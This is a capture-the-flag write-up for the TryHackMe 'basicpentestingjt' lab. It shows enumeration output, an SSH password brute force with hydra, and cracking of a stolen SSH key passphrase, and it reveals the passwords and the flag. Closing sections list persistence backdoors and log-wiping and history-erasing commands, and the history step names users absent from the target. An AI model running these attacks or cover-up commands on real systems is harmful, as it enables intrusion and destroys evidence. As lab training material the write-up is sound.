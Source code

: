 ```yaml
---
title: "THM:basicpentestingjt"
subtitle: "TryHackMe CTF room: https://tryhackme.com/room/basicpentestingjt"
categories: [ctf, thm]
tags: [ ctf,nmap,enum4linux,gobuster,dirbuster,hydra,private-key,john,ssh2john,apache,ubuntu,privesc,sudo ]
layout: page
panel_includes:
  - toc
---
```

# basicpentestingjt

URL: [https://tryhackme.com/room/basicpentestingjt](https://tryhackme.com/room/basicpentestingjt) &nbsp;<span class="badge rounded-pill bg-success" title="This is an Easy difficulty room."><i class="fa fa-bolt"></i>&nbsp;Easy</span>

## PHASE 1: Reconnaissance

Description of the room:

> In these set of tasks you'll learn the following:
>  
> * brute forcing 
> * hash cracking 
> * service enumeration
> * Linux Enumeration
>  
> The main goal here is to learn as much as possible. Make sure you are connected to our network using your OpenVPN configuration file.
>  
> Credits to Josiah Pierce from Vulnhub.

## PHASE 2: Scanning & Enumeration

### Running: `nmap`

Ran the following:

> `nmap -sC -sV xxx.xxx.xxx.xxx`

Which produced the following output:

```text
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-17 23:17 EST
Nmap scan report for 10.10.183.192
Host is up (0.28s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8009/tcp open  ajp13
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 24.35 seconds
```

Also see: [nmap.log](nmap.log)

### Enumerating Samba Users

Since Samba is running, we can run:

> `/usr/share/enum4linux/enum4linux.pl -a xxx.xxx.xxx.xxx`

This resulted in the following log (truncated for space, key portions kept or [full log](enum4linux.log)):

```python
 ======================================================================= 
|    Users on 10.10.145.91 via RID cycling (RIDS: 500-550,1000-1050)    |
 ======================================================================= 
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```

From this, we know we have at least two users: `jan`, and `kay`.

### Finding Web Server Folders

To attempt to find subfolders on the web server, GoBuster was used via:

> `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://xxx.xxx.xxx.xxx/`

This is what allowed us to find the `/development` folder:

```text
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.183.192/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/01/17 23:22:47 Starting gobuster in directory enumeration mode
===============================================================

/development          (Status: 301) [Size: 320] [--> http://10.10.183.192/development/]
```

Also see: [gobuster.log](gobuster.log)

### Attempting to guess `jan` SSH password

Using hydra, we try RockYou passwords over SSH with:

> `hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://xxx.xxx.xxx.xxx`

Which resulted in:

```text
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-17 23:30:43
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.183.192:22/
[STATUS] 170.00 tries/min, 170 tries in 00:01h, 14344231 to do in 1406:18h, 16 active
[STATUS] 112.67 tries/min, 338 tries in 00:03h, 14344063 to do in 2121:55h, 16 active
[STATUS] 109.29 tries/min, 765 tries in 00:07h, 14343636 to do in 2187:29h, 16 active
[22][ssh] host: 10.10.183.192   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-17 23:37:48
```

This is where we discovered the password: `armando` for user `jan`.

Also see: [hydra.log](hydra.log)

## PHASE 3: Gaining Access


### Privilege Escalation from `jan` to `kay`.

In the process of running Linpeas, we found that user `jan` had privilege to read user `kay`'s SSH private key. So, the key was retrieved via:

> `cat /home/kay/.ssh/id_rsa`

When attempting to log into the server as Kay via:

> `ssh kay@xxx.xxx.xxx.xxx -i ./kay_id_rsa`

We are confronted with a password prompt. The SSH key is password protected.

### Processing Kay's Private SSH Key

We can take that [private key](kay_id_rsa):

```text
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6ABA7DE35CDB65070B92C1F760E2FE75

IoNb/J0q2Pd56EZ23oAaJxLvhuSZ1crRr4ONGUAnKcRxg3+9vn6xcujpzUDuUtlZ
o9dyIEJB4wUZTueBPsmb487RdFVkTOVQrVHty1K2aLy2Lka2Cnfjz8Llv+FMadsN
(...snip...)
e5ofsDLuIOhCVzsw/DIUrF+4liQ3R36Bu2R5+kmPFIkkeW1tYWIY7CpfoJSd74VC
3Jt1/ZW3XCb76R75sG5h6Q4N8gu5c/M0cdq16H9MHwpdin9OZTqO2zNxFvpuXthY
-----END RSA PRIVATE KEY-----
```

We can put that into a format for "John the Ripper", so that he can crack that password. We can do that by running the `ssh2john.py` script from [here](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py):

> `ssh2john.py ./kay_id_rsa > ./kay_id_rsa.hash`

Resulting in the [following hash](kay_id_rsa.hash) of the private key file, suitable for John The Ripper to extract the key:

```text
./kay_rsa_id:$sshng$1$16$6ABA7DE35C{...snip...}edb337116fa6e5ed858
```

We then run John the Ripper against it, using a word list:

> `john --wordlist=/usr/shared/wordlists/rockyou.txt ./kay_id_rsa.hash`

We ultimately determine the password for the SSH key is: `beeswax`.

Once logged in as user `kay`, we could read the `pass.bak` file which had the final flag of: `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`.

## PHASE 4: Maintaining Access

This is a test machine. However, in a Red Team scenario, we could:

* Add SSH key to `/root/.ssh/authorized_keys`
* Create a privileged account that wouldn't draw attention (ex: `operations`).
* Install some other backdoor or service.

## PHASE 5: Clearing Tracks

This is a test machine. However, in a Red Team scenario, we could:

### Delete relevant logs from `/var/log/` - although that might draw attention

> `rm -Rf /var/log/*`

### Search and replace our IP address in all logs via

> `find /var/log -name "*" -exec sed -i 's/10.10.2.14/127.0.0.1/g' {} \;`

### Wipe bash history for any accounts we used via

> `cat /dev/null > /root/.bash_history`
>  
> `cat /dev/null > /home/kathy/.bash_history`
>  
> `cat /dev/null > /home/sam/.bash_history`
